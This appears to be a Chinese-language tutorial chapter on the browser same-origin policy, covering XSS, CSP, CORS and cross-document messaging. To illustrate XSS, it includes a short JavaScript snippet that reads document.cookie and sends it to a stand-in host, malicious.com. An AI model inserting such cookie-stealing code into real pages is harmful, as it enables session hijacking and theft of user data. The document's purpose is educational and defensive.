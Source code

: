 ```yaml
---
sidebarDepth: 3
pageClass: custom-code-highlight
---
```


# 同源策略：为什么XMLHttpRequst不能跨域请求资源

通过前面 6 个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响。在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的 5 篇文章，我们就来系统地介绍下浏览器安全相关的内容。

浏览器安全可以分为三大块——Web 页面安全、浏览器网络安全和浏览器系统安全，所以本模块我们就按照这个思路来做介绍。鉴于页面安全的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。

今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，Web 世界会是什么样子的呢？

Web 世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频 / 视频等资源，甚至可以下载其他站点的可执行文件。

Web 世界是开放的，这很符合 Web 理念。但如果 Web 世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：

- 修改银行站点的 DOM、CSSOM 等信息；
- 在银行站点内部插入 JavaScript 脚本；
- 劫持用户登录的用户名和密码；
- 读取银行站点的 Cookie、IndexDB 等数据；
- 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

所以说，在没有安全保障的 Web 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全。

这就引出了页面中最基础、最核心的安全策略：同源策略（Same-origin policy）。

## 什么是同源策略

要了解什么是同源策略，我们得先来看看什么是同源。

如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。比如下面这两个 URL，它们具有相同的协议 HTTPS、相同的域名 time.geekbang.org，以及相同的端口 443，所以我们就说这两个 URL 是同源的。


```
https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
```

浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

具体来讲，同源策略主要表现在 DOM、Web 数据和网络这三个层面。

**第一个，DOM 层面**。同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。

**第二个，数据层面。同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据**。由于同源策略，我们依然无法通过第二个页面的 opener 来访问第一个页面中的 Cookie、IndexDB 或者 LocalStorage 等内容。你可以自己试一下，这里我们就不做演示了。

**第三个，网络层面**。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。你还记得在《17 | WebAPI：XMLHttpRequest 是怎么实现的？》这篇文章的末尾分析的 XMLHttpRequest 在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下不能访问跨域的资源。

## 安全和便利性的权衡

我们了解了同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。

### 1. 页面中可以嵌入第三方资源

我们在文章开头提到过，Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码

![](https://blog.poetries.top/img/static/gitee/2019/11/92.png)

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。通过这些手段就可以大大减少 XSS 攻击。

### 2. 跨域资源共享和跨文档消息机制

默认情况下，如果打开极客邦的官网页面，在官网页面中通过 XMLHttpRequest 或者 Fetch 来请求 InfoQ 中的资源，这时同源策略会阻止其向 InfoQ 发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵 DOM。不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制，可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。

## 总结

好了，今天就介绍到这里，下面我来总结下本文的主要内容。

同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。
使用 XMLHttpRequest 和 Fetch 都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信